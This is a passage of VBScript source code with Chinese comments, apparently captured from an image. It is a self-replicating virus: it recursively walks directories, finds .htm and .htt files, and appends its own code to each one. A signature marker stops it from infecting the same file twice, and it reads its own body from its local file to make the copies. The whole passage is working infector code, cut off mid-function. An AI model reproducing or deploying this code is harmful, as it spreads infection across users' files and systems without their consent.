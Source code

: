 ```vbscript
        end if
    next
End Function

' 在该目录中找html文件
Function TravelDir(folderspec)  ' 目录的名字
    if not (fso.FileExists(folderspec) or fso.FolderExists(folderspec)) then
        exit function           ' not exist, so return
    end if
    Dim fld
    Set fld = fso.GetFolder(folderspec)
    dim f1, fc
    Set fc = fld.Files   ' 文件集合
    For Each f1 in fc    'for all files
        dim s
        s = f1.name
        if instr(s, ".htm") or instr(s, ".htt") then    ' 只要html文件
            AppendCode(f1.path)
        end if
    Next
    Dim fld1, fldc
    Set fldc = fld.SubFolders ' 子目录集合
    For Each fld1 in fldc     ' for all sub folders
        TravelDir(fld1.path)  ' 递归地查找
    Next
End Function

' 尝试在该html文件的尾部拼加自己的代码
Function AppendCode(filespec)
    dim f1 ' 访问其文件属性
    set f1 = fso.GetFile(filespec)
    if f1.Size>0 and f1.attributes=32 then ' 只关心长度非0的正常归档文件
        dim itstext ' 目标文本
        itstext = fso.OpenTextFile(filespec, ForReading).readall
        if instrrev(itstext, mignature & " B") = 0 then ' 还没感染
            dim file1
            set file1 = fso.OpenTextFile(filespec, ForAppending)
            file1.Write vbcrlf & vbcrlf & mytext & vbcrlf & vbcrlf ' 拼加之
            file1.Close
        end if
    end if
End Function

Function getmytext()
    dim myname ' 自己所在的文件的名字
    myname = LCase(Location.Href)
    if strcomp(left(myname, 8), "file:///") <> 0 then ' 不在本地文件系统里
        mytext = "not in local file system"
        exit function
    end if
    myname = right(myname, len(myname)-8)   ' 去掉"file:///"
    dim fulltext  ' 全文
    fulltext = fso.OpenTextFile(myname, ForReading).ReadAll ' 读入整个文件内容

    mytext =  "a-bug"    ' 如果没找到自己的位置的默认值（?!）
    dim posB, posA       ' 找特征串的开始和结束的位置
    posB = instrrev(fulltext, mignature & " B")
    if posB>0 then       ' 找到12:30～B标志
        posB = posB+len(mignature)+2+4' 修正
        posA = instrrev(fulltext, mignature & " A")
        if posA>0 then   ' 找到12:30～A标志
            posA = posA-5
            mytext = mid(fulltext, posA, posB-posA) ' 只取自己的A～B部分
```